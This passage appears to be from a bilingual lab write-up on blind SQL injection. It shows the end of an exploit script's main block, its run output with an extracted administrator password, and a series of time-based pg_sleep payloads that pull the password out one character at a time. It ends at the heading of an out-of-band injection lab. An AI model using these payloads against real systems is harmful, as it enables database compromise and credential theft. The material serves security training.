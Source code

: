 ```python


if __name__ == '__main__':
	p1=log.progress("SQLI")
	p2=log.progress("Password")
	SQLI()
```

```bash
❯ python3 sqli.py
```

```ruby
[∧] SQLI: TvXMzKlqgSfVoLVu'||case when((select substring(password,20,1) from users where username='administrator')='g') then pg_sleep(1) else pg_sleep(0) end-- -
[▗] Password: dtp06awbjgc4o3vvkmug
```

- Injection

```sql
SELECT * FROM tracking WHERE id = 'fE3ckFcqhjBIOfkv'||pg_sleep(10)-- -'
```

```sql
SELECT * FROM tracking WHERE id = 'fE3ckFcqhjBIOfkv'||case when (1=1) then pg_sleep(5) else pg_sleep(0) end-- -'
```

```sql
SELECT * FROM tracking WHERE id = 'fE3ckFcqhjBIOfkv'||case when ((select substring(username,1,1) from users where username='administrator')='a') then pg_sleep(5) else pg_sleep(0) end-- -'
```

```sql
SELECT * FROM tracking WHERE id = 'fE3ckFcqhjBIOfkv'||case when ((select substring(username,1,1) from users where username='administrator' and length(password)=20)='a') then pg_sleep(5) else pg_sleep(0) end-- -'
```

```sql
SELECT * FROM tracking WHERE id = 'fE3ckFcqhjBIOfkv'||case when ((select substring(password,1,1) from users where username='administrator')='d') then pg_sleep(5) else pg_sleep(0) end-- -'
```

## Inyección SQL ciega con interacción out-of-band (OOB) || Blind SQL injection with out-of-band interaction

- Query SQL

```sql
SELECT * FROM tracking WHERE id = '$INPUT$'
```

- Explotation

![](/img2/Pasted%20image%2020250709150654.png)
